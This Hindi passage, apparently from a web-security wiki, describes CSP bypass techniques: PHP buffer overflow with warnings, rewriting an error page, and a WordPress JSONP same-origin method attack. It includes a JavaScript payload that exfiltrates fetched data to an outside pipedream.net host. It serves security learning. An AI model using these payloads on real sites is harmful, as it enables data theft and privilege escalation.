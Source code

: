 ### PHP प्रतिक्रिया बफर ओवरलोड

PHP को डिफ़ॉल्ट रूप से **4096** बाइट्स तक प्रतिक्रिया को **बफर** करने के लिए जाना जाता है। इसलिए, यदि PHP एक चेतावनी दिखा रहा है, तो **चेतावनियों के अंदर पर्याप्त डेटा प्रदान करके**, **प्रतिक्रिया** **CSP हेडर** से **पहले** **भेजी जाएगी**, जिससे हेडर को अनदेखा किया जाएगा।\
फिर, तकनीक मूल रूप से **चेतावनियों के साथ प्रतिक्रिया बफर को भरने** में है ताकि CSP हेडर न भेजा जाए।

[**इस लेख**](https://hackmd.io/@terjanq/justCTF2020-writeups#Baby-CSP-web-6-solves-406-points) से विचार।

### त्रुटि पृष्ठ को फिर से लिखें

[**इस लेख**](https://blog.ssrf.kr/69) से ऐसा लगता है कि CSP सुरक्षा को बायपास करना संभव था एक त्रुटि पृष्ठ (संभवतः CSP के बिना) को लोड करके और इसकी सामग्री को फिर से लिखकर।
```javascript
a = window.open('/' + 'x'.repeat(4100));
setTimeout(function() {
a.document.body.innerHTML = `<img src=x onerror="fetch('https://filesharing.m0lec.one/upload/ffffffffffffffffffffffffffffffff').then(x=>x.text()).then(x=>fetch('https://enllwt2ugqrt.x.pipedream.net/'+x))">`;
}, 1000);
```
### SOME + 'self' + wordpress

SOME एक तकनीक है जो एक XSS (या अत्यधिक सीमित XSS) **एक पृष्ठ के अंत बिंदु में** का दुरुपयोग करती है ताकि **एक ही मूल के अन्य अंत बिंदुओं का दुरुपयोग** किया जा सके। यह एक हमलावर पृष्ठ से कमजोर अंत बिंदु को लोड करके और फिर हमलावर पृष्ठ को उसी मूल में वास्तविक अंत बिंदु पर ताज़ा करके किया जाता है जिसे आप दुरुपयोग करना चाहते हैं। इस तरह **कमजोर अंत बिंदु** **`opener`** ऑब्जेक्ट का उपयोग कर सकता है **पेलोड** में **DOM** तक **पहुँचने के लिए** **वास्तविक अंत बिंदु का दुरुपयोग** करने के लिए। अधिक जानकारी के लिए देखें:

{% content-ref url="../xss-cross-site-scripting/some-same-origin-method-execution.md" %}
[some-same-origin-method-execution.md](../xss-cross-site-scripting/some-same-origin-method-execution.md)
{% endcontent-ref %}

इसके अलावा, **wordpress** में `/wp-json/wp/v2/users/1?_jsonp=data` पर एक **JSONP** अंत बिंदु है जो **आउटपुट में भेजे गए डेटा** को **प्रतिबिंबित** करेगा (केवल अक्षरों, संख्याओं और बिंदुओं की सीमा के साथ)।

एक हमलावर उस अंत बिंदु का दुरुपयोग करके **WordPress के खिलाफ एक SOME हमले** को **जनरेट** कर सकता है और इसे `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` के अंदर **एंबेड** कर सकता है, ध्यान दें कि यह **स्क्रिप्ट** **लोड** होगी क्योंकि इसे **'self' द्वारा अनुमति दी गई है**। इसके अलावा, और क्योंकि WordPress स्थापित है, एक हमलावर **SOME हमले** का दुरुपयोग **कमजोर** **कॉलबैक** अंत बिंदु के माध्यम से कर सकता है जो **CSP को बायपास** करता है ताकि एक उपयोगकर्ता को अधिक विशेषाधिकार दिए जा सकें, एक नया प्लगइन स्थापित किया जा सके...\
इस हमले को कैसे करना है, इसके बारे में अधिक जानकारी के लिए देखें [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## CSP Exfiltration Bypasses
